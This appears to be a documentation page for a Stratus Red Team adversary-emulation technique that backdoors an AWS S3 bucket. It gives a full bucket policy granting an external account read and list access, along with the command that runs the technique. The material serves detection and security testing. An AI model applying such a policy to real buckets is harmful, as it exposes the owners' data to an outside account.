 ```yaml
---
title: Backdoor an S3 Bucket via its Bucket Policy
---
```


# Backdoor an S3 Bucket via its Bucket Policy


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates data from an S3 bucket by backdooring its Bucket Policy to allow access from an external, fictitious AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an S3 bucket.

<span style="font-variant: small-caps;">Detonation</span>: 

- Backdoor the S3 Bucket Policy by setting the following Bucket Policy:

<pre>
<code>
{
  "Version":"2012-10-17",
  "Statement":[
    {
      "Effect": "Allow",
      "Principal": {
        "AWS":"arn:aws:iam::193672423079:root"
      },
      "Action": [
        "s3:GetObject",
        "s3:GetBucketLocation",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::%s/*",
        "arn:aws:s3:::%s"
      ]
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.exfiltration.s3-backdoor-bucket-policy
```